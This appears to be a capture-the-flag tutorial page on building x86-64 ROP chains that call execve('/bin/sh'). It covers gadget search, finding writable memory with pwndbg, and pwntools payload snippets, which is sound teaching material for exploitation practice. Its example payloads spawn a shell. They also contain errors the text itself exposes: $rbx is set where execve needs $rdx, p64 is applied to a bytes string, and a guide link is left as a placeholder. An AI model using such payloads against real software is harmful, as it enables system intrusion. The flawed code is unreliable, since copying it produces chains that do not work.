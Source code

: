 ```yaml
---
title: How to solve a ROP challenge
---
```


This guide shows you how to solve a ROP challenge.

## Identify available gadgets
The available gadgets in a program usually determines what subcategory of ROP attack you might need to use.

Check for gadgets using `ROPgadget --binary ./vuln | grep "<register>"`
- If there are no easy-to-use `$rax` or `syscall` gadgets, ROP attacks may not be the correct type of attack.
- If there are no easy-to-use `$rdi`, `$rsi` and `$rdx` gadgets, visit the following guides for a more advanced ROP attack.
    - (insert guide here)

## Locating `/bin/sh`
It is possible that `/bin/sh` may already exist as a string in your program. Run `strings ./vuln | grep "/bin/sh"` to check.

If such string exists, skip to [finding the offset to return address](#find-offset-to-return-address)

## Locate empty space for `/bin/sh`
If there is no `/bin/sh` string, you will need to add the string yourself to empty address.

To begin, first find some empty space within the program's address space.
1. Open the program with pwndbg.
2. Ensure that the program pauses as it runs, either through a user input or breakpoint you added.
3. Run the program and `CTRL+C` when you are at the pause
4. Run `vmmap`. Identify the address where the `DATA` "region" starts.
5. View the data region with `x/<number of bytes>x <address>` to view some amount of bytes from the target address onwards, inclusive of the target address.
6. Note down the address you want to add `/bin/sh` into. It should be empty `0x00000000` such that you would not interfere with the program.

<Image src={vmmap} alt={"Screenshot showing the output of 'vmmap' and viewing the data region of a program"}/>

## Identify "mov" gadget
Afterward, identify a `mov` gadget that you will use.

For example, the gadget `mov qword ptr [rax], rdi; ret` would move the value from `$rdi` to the address at `$rax`.

Note down the address of the `mov` gadget you will use.

## Build payload
You will need to do the following in your payload in no particular order:
1. Set the register that should hold the value to the value
    1. Ensure that the `/bin/sh` string contains the null byte like a string should have.
2. Set the register that should hold the address to the address

Finally, call the `mov` gadget via the address you noted down. Here is an example payload:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(b"/bin/sh\x00")
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(MOV_GADGET) # mov qword ptr [rax], rdi; ret
```

## Find offset to return address

Find the offset from your buffer to the return address.

<LinkCard title="Finding offsets to return addresses" href="/pwn/guides/cyclic/" description="Guide to finding offset from a buffer to the return address"/>

## Build payload
You will need to do the following in your payload in no particular order:
- Set `$rax` to `59`/`0x3b`
- Set `$rdi` to the address of a `/bin/sh` string
- Set `$rsi` to `0`/`0x0`
- Set `$rbx` to `0`/`0x0`

Finally, call a `syscall` gadget. Here is an example payload:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```

Here ie an example payload that includes adding the `/bin/sh` string:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(b"/bin/sh\x00")
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(MOV_GADGET) # mov qword ptr [rax], rdi; ret

payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```